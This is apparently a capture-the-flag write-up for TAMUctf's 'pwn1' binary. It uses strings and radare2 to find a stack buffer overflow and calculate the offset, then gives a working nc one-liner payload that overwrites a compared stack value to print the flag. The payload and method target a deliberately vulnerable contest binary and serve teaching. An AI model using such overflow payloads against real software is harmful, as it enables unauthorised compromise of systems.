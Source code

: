PWN1
```
nc pwn.tamuctf.com 4321

Difficulty: easy
```

[binary|changem]

Task has no description, everything looks obvious:

```
$ nc pwn.tamuctf.com 4321

Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
aaa
I don't know that! Auuuuuuuugh!
```

Okay, let's check what we've got in pwn1 file:

```
$ file pwn1 

pwn1: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd7aa1accb16feac888c99841f504, not stripped
```

It is 32-bit elf: we can run it only on 32-bit operation systems or https://askubuntu.com/questions/454253/how-to-run-32-bit-app-in-ubuntu-64-bit

Let's check what strings it has:
```
$ strings pwn1

...
UWVS
[^_]
Right. Off you go.
flag.txt
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
I don't know that! Auuuuuuuugh!
What... is your quest?
To seek the Holy Grail.
What... is my secret?
;*2$"
GCC: (Ubuntu 7.3.0-27ubuntu1~18.04) 7.3.0
...
```

Okay. We could try to answer some questions, let's try:

```
$ nc pwn.tamuctf.com 4321

Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
What... is your quest?
To seek the Holy Grail.
What... is my secret?
;*2$"
I don't know that! Auuuuuuuugh!
```

I've tried some strings as answer to question `What... is my secret?` but vainly.

Time to uncover radare2.


```
$ r2 -b 32 -d pwn1
Process with PID 9563 started...
= attach 9563 9563
bin.baddr 0x565b6000
Using 0x565b6000
asm.bits 32
glibc.fc_offset = 0x00148
 -- You can mark an offset in visual mode with the cursor and the ',' key. Later press '.' to go back
[0xf7efea20]> s main
[0x565b6779]> V
```

`s main` seeks to main function

`V` brings to visual mode

Then press two times `p`:
`p/P      rotate print modes (hex, disasm, debug, words, buf)`

you will see something like:

![s1](https://github.com/c00c00r00c00/writeups/blob/master/TAMUctf/pwn1/s1.png)
![s1](s1.png)

Set breakpoint at the first command after the first fgets just to play around.
To do this enter into command mode by pressing `:`, then type `db 0x5664a7f6`.
To check whether breakpoint has set type just `db`.
To read a short help about each command in r2 type question mark after the command, e.g. `db?`

Then type `dc` in command mode to continue execution until breakpoint.
We can see the first question and we can try to answer to it with already known string `Sir Lancelot of Camelot`:
![s2](s2.png)

Okay. To exit command mode just press Enter.
Let's find next fgets by simple scrolling and set breakpoint just on the next command after it.
Then execute binary until breakpoint. Put the answer to second question which was found before `To seek the Holy Grail.`:
![s3](s3.png)

Do the same: set breakpoint after third !gets, execute the binary.
Since we don't know the answer to third question just put 50 `a` chars:
![s4](s4.png)

By pressing Enter return to visual mode:
![s5](s5.png)

We can see that:

(1) next command is a simple comparison, value from stack by address `ebp-0x10` compares to value `0xdea110c8`

(2) next command is `jne` - jump if not equal, we would like to not jump since the next is a call `call sym.print_flag` which looks promising

(3) here is a current value of ebp registry


Let's check what we have by address  ebp-0x10.
Enter command mode - press `:` - and print hex dump of 16 bytes (dword) by address - type `x 16 @ebp-0x10`:
![s6](s6.png)

oh! we can see `aaa` here. Seems we have [stack overflow|https://en.wikipedia.org/wiki/Stack_buffer_overflow]

I'm not going to explain how it works since it is full entire article. Read wiki or google `stack buffer overflow`.

Let's calculate how many `a` + `0xdea110c8` we should put to override @ebp-0x10.

Press `c` being in visual mode, so you'll jump to your stack memory.
Using arrow keys go to the first `a` in your stack. It is a starting address.
We need to get the difference between this address and @ebp-0x10:


( value of ebp ) - ( 0x10 ) - ( address of dword of first `a` in the stack ) + ( offseet of first `a` )

In my case it is:
![s7](s7.png)


`0xffcafd28` - `0x10` - `0xffcafce0` + 0xD 

The result is 43:
```
$ perl -E 'say ((0xfff60d58-0x10)-(0xfff60d10+0xd))'

43
```

So we need 43 `a` and 4 bytes `0xdea110c8`.

To put those 4 bytes I would use echo, e.g.:
```
$ echo -e '\x61'
a
```

So, exploit should looks like:

```
echo -e 'Sir Lancelot of Camelot\nTo seek the Holy Grail.\naaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xde\xa1\x10\xc8' |nc pwn.tamuctf.com 4321
```

But it doesn't work:
![s8](s8.png)

Hm, let's run it under radare2 again, set up breakpoint just after gets, and input answer for the third questions as `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcde`.
I choosed bcde instead of \xde\xa1\x10\xc8 because I don't know how to input such data by hand.

Then let's check what we have to compare:
![s9](s9.png)

`cmp` instruction has 3 bytes size, so we do +3 and print 4 bytes of code
the second print takes 4 bytes of @ebx-0x10

we have different byte order!

Let's modify our payload so last 4 bytes will be in litle endian order:

```
$ echo -e 'Sir Lancelot of Camelot\nTo seek the Holy Grail.\naaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xc8\x10\xa1\xde' |nc pwn.tamuctf.com 4321
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
gigem{34sy_CC428ECD75A0D392}

```
